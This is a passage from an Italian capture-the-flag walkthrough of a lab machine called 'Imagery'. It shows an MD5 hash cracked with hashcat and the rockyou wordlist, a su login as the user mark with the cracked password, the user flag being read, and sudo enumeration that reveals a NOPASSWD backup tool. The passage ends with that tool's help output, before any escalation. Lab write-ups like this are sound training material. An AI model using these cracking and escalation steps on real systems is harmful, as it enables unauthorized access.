 Sono presenti delle nuove credenziali per **mark** e **web**.

```bash

$ hashcat -a 0 -m 0 pass2.md5 /usr/share/wordlists/rockyou.txt.gz --show
01c3d2e5bdaf6134cec0a367cf53e535:supersmash

```

Si ottengono le credenziali **mark:supersmash**.

## Shell as mark

```bash

web@Imagery:~$ su -l mark
Password: 

```

Funziona!

Si accede al file **user.txt**.

```bash

mark@Imagery:~$ cat user.txt 
4c324308a436141c002c64c4c4d6b174

```

## Privilege Escalation

```bash

mark@Imagery:~$ sudo -l
Matching Defaults entries for mark on Imagery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mark may run the following commands on Imagery:
    (ALL) NOPASSWD: /usr/local/bin/charcol

```

Con i permessi **sudo** si puo' eseguire **/usr/local/bin/charcol**.

```bash

mark@Imagery:~$ sudo /usr/local/bin/charcol help
usage: charcol.py [--quiet] [-R] {shell,help} ...

Charcol: A CLI tool to create encrypted backup zip files.

positional arguments:
  {shell,help}          Available commands
    shell               Enter an interactive Charcol shell.
    help                Show help message for Charcol or a specific command.

options:
  --quiet               Suppress all informational output, showing only
                        warnings and errors.
  -R, --reset-password-to-default
                        Reset application password to default (requires system
                        password verification).

```
